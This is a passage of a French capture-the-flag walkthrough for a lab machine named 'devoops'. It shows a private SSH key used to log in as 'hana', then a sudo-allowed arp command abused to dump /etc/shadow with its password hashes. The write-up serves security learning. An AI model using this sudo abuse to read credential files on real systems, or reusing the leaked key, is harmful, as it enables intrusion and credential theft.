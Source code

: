```console
$ ssh-keygen -l -f priv_key
priv_key is not a key file.
```

Une fois corrigé :

```bash
cat > priv_key << 'EOF'
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACCMB5xEc6A2I69whyZDcTSPGVsz2jivuziHAEXaAlJLrgAAAJgA8k3lAPJN
5QAAAAtzc2gtZWQyNTUxOQAAACCMB5xEc6A2I69whyZDcTSPGVsz2jivuziHAEXaAlJLrg
AAAEBX7jUWSgQUQgA8z8yL85Eg1WiSgijSu3C4x8TVF/G3uIwHnERzoDYjr3CHJkNxNI8Z
WzPaOK+7OIcARdoCUkuuAAAAEGhhbmFAZGV2b29wcy5obXYBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
EOF
```

Cela fonctionne :

```console
$ ssh -p 2222 -i priv_key hana@127.0.0.1

devoops:~$ id
uid=1001(hana) gid=100(users) groups=100(users),100(users)
devoops:~$ ls
user.flag
devoops:~$ cat user.flag 
flag{03d0e150ae9fc686a827b41e1969d497}
```

### Shadow

La permission sudo de l'utilisatrice était inattendue :

```console
devoops:~$ sudo -l
Matching Defaults entries for hana on devoops:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for hana:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User hana may run the following commands on devoops:
    (root) NOPASSWD: /sbin/arp
```

On trouve un GTFObin pour la commande `arp` :

```console
devoops:~$ sudo arp -v -f "/etc/shadow"
>> root:$6$FGoCakO3/TPFyfOf$6eojvYb2zPpVHYs2eYkMKETlkkilK/6/pfug1.6soWhv.V5Z7TYNDj9hwMpTK8FlleMOnjdLv6m/e94qzE7XV.:20200:0:::::
arp: format error on line 1 of etherfile /etc/shadow !
--- snip ---
>> chrony:!:20199:0:99999:7:::
arp: format error on line 19 of etherfile /etc/shadow !
>> runner:$6$sAhdpizXgKayGrqM$lcoysLIY9dsxpwy6cyWHBS/pPbvG4KmlM06SSad0PIWrJcXssseL4EZxzF369gaPZvgyD5JXKHVCXfFUDjciP/:20199:0:99999:7:::
arp: format error on line 20 of etherfile /etc/shadow !
>> hana:$6$snNJGjzsPo.be3r1$V8NneKBkVIZYE6XOFTk1Bq2Trjyf5lO6uQUcWXogI3IiWDEiBDS2yEdck.hx0dIdmIIHGkJX7cfH3zXqKVXcc1:20199:0:99999:7:::
arp: format error on line 21 of etherfile /etc/shadow !
>> gitea::20199:0:99999:7:::
arp: format error on line 22 of etherfile /etc/shadow !
```
